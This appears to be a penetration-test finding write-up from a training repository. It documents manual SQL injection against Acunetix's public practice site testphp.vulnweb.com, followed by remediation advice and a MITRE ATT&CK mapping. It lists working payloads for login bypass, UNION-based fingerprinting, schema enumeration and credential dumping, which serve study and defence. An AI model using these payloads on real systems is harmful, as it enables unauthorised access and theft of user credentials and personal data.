




> **English** | [Italiano](README.md)

# Manual SQL Injection (SQLi)

> - **Phase:** Web Attack - SQL Injection (Manual)
> - **Visibility:** Medium - HTTP requests with SQL payload in URL parameter or POST body
> - **Prerequisites:** Vulnerable endpoint identified, Burp Suite or browser to manipulate GET/POST parameters
> - **Output:** Auth bypass, database structure dump, credential and sensitive data exfiltration, finding WEB-004

---

**Finding ID:** `WEB-004` | **Severity:** `Critical` | **CVSS v3.1:** 9.8

---

## 1 Executive Summary

During the Security Assessment activity performed on target `testphp.vulnweb.com`, multiple critical SQL Injection (SQLi) vulnerabilities were identified.

These vulnerabilities allow an unauthenticated attacker to:

- Bypass authentication mechanisms, accessing as administrator without knowing the password.
- Execute arbitrary queries on the backend database.
- Exfiltrate the entire database contents, including sensitive data such as user credentials, credit card numbers and personal information.

The risk level is assessed as CRITICAL since the compromise is total (Confidentiality, Integrity, Availability).

---

## 2 Technical Analysis

#### Scenario A: Authentication Bypass (Login)

The login module does not properly sanitize user input, allowing injection of SQL fragments that alter the authentication query logic.

Endpoint: `http://testphp.vulnweb.com/login.php`

Vector: `Username` field

Payload (Exploit):

```SQL
admin' #
```



Technical Analysis:

The presumed backend query is: `SELECT * FROM users WHERE user = '$username' AND pass = '$password'`;

By injecting the payload, the query becomes:

```SQL
SELECT * FROM users WHERE user = 'admin' # AND pass = '...';
```

The `#` (hash) character is interpreted by MySQL as a comment, truncating the rest of the query. The password check is bypassed and the attacker gains access as user `admin`.

Evidence:

Access successfully executed to the administrative dashboard.

#### Scenario B: UNION Based Injection (Data Extraction)

The `artists.php` endpoint through the GET parameter `artist` is vulnerable to UNION-Based SQL Injection. This allows merging the original query results with results from an attacker-injected query.

Endpoint: `http://testphp.vulnweb.com/artists.php?artist=1`

Phase 1: Reconnaissance & Fingerprinting

To exploit the vulnerability, it was necessary to determine the number of columns in the current table and identify which columns are displayed on screen (reflected).

- Column Enumeration: `ORDER BY 3` (Success), `ORDER BY 4` (Error). The table has 3 columns.
- Output Identification: Using a non-existent ID (`-1`) and `UNION SELECT 1, 2, 3`, it was identified that columns 2 and 3 are visible to the user.
- Fingerprinting: DB version and user extraction.

Payload:

```SQL
http://testphp.vulnweb.com/artists.php?artist=-1 UNION SELECT 1, version(), user()
```


Evidence:

The server reveals version `8.0.22-0ubuntu` and user `acuart@localhost`.

Scenario C: Database Dumping (The Kill Chain)

Exploiting the UNION vulnerability, complete exfiltration of the database schema and sensitive data was performed.

#### Step 1: Table Enumeration

Access to the system table `information_schema.tables` to list all present tables.

Payload:

```SQL
http://testphp.vulnweb.com/artists.php?artist=-1 UNION SELECT 1, group_concat(table_name), 3 FROM information_schema.tables WHERE table_schema=database()
```



Result: `artists, carts, categ, featured, guestbook, pictures, products, users`.

The `users` table was identified as the high-value target.

#### Step 2: Column Enumeration

Access to `information_schema.columns` to discover the `users` table structure.

Payload:

```SQL
http://testphp.vulnweb.com/artists.php?artist=-1 UNION SELECT 1, group_concat(column_name), 3 FROM information_schema.columns WHERE table_name='users'
```



Result: `uname, pass, cc, address, email, name, phone`.

#### Step 3: Data Exfiltration (Final Dump)

Mass extraction of usernames and passwords from the users table.

Payload:

```SQL
http://testphp.vulnweb.com/artists.php?artist=-1 UNION SELECT 1, group_concat(uname,0x3a,pass), 3 FROM users
```



(Note: `0x3a` is the hexadecimal representation of the colon `:` used as separator).

Evidence (Loot):

The server returns credentials in plaintext directly in the page, demonstrating the total compromise of data confidentiality:

- Exact credentials: `test:test`
- (Any other admin users)

---

## 3 Remediation Strategy (Defense)

To mitigate the identified vulnerabilities, immediate adoption of the following Secure Coding practices is recommended:

1. Prepared Statements (Mandatory):
    
Abandon dynamic query construction through string concatenation. Use Prepared Statements (e.g., `PDO` in PHP or `PreparedStatement` in Java) that strictly separate the SQL structure from user-provided data.

Example (PHP Secure):

```PHP
$stmt = $pdo->prepare('SELECT * FROM users WHERE user = :user');
$stmt->execute(['user' => $username]);
$user = $stmt->fetch();
```

2. Input Validation:

Implement strict validation (Allow-list) on all inputs.

- If the `artist` parameter must be a number, force the type to `Integer`.
- Reject any input containing unexpected characters.

3. Principle of Least Privilege:

The database user used by the web application should not have access to system tables (`information_schema`) or write permissions unless strictly necessary.

4. WAF (Web Application Firewall):

As a defense-in-depth measure, implement a WAF to detect and block common SQL attack patterns (e.g., `UNION SELECT`, `OR 1=1`).

---

## MITRE ATT&CK Mapping

| Tactic | Technique | MITRE ID | Action Description |
| :--- | :--- | :--- | :--- |
| Initial Access | Exploit Public-Facing Application | `T1190` | SQL Injection exploitation on the login form (`admin' #`) and `artist` parameter of `testphp.vulnweb.com` for unauthorized access (WEB-004) |
| Discovery | Account Discovery: Local Account | `T1087.001` | Database user enumeration through `information_schema.tables` and recovery of the `users` table structure (WEB-004) |
| Collection | Data from Information Repositories | `T1213` | Complete dump of the `users` table containing credentials (`test:test`), emails, phone numbers and credit card data through UNION-based injection (WEB-004) |

---

> **Note:** Manual SQL Injection activities were conducted on `testphp.vulnweb.com`, Acunetix's public training environment. Extracted data (credentials, credit cards) were treated as sensitive data: viewed to document the vulnerability and then discarded. In a real engagement, the database dump would be delivered to the client in encrypted form as proof of compromise, classified "Strictly Confidential".
